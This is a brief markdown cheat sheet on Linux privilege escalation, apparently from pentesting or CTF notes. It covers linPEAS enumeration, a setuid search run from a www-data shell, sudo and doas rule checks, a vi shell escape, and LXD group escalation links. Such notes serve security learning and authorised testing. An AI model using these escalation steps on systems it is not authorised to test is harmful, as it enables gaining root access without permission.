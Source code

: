 ## Enumeration Scripts

[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) is a super comprehensive and commonly used script to identify possible priv-esc vectors.

## setuid bit

The setuid bit simply indicates that when running the executable, it will set its permissions to that of the owner, instead of setting it to the user who launched it.

We can search for all files with the bit set with

```bash
www-data@50bca5e748b0:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
```

It's worth checking the results against [GTFOBins](https://gtfobins.github.io/).

## Common

List your user's sudo priveleges with

```bash
~$ sudo -l
```

Also check for permit-nopass rules in the **doas.conf** file if it exists.

The rule

```shell
# /etc/doas.conf or /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

allows us to run

```shell
doas /usr/bin/dstat
# OR
doas /usr/bin/dstat --some-args
```

## vi

If we can sudo to use vi, we can break out of it into a shell

```bash
# within vi
:set shell=/bin/sh
:shell
```

## LXD

LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. If a user is a member of the lxd group, can escalate with https://www.hackingarticles.in/lxd-privilege-escalation/ (or, more complicated, https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

## Links

[GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.](https://gtfobins.github.io/)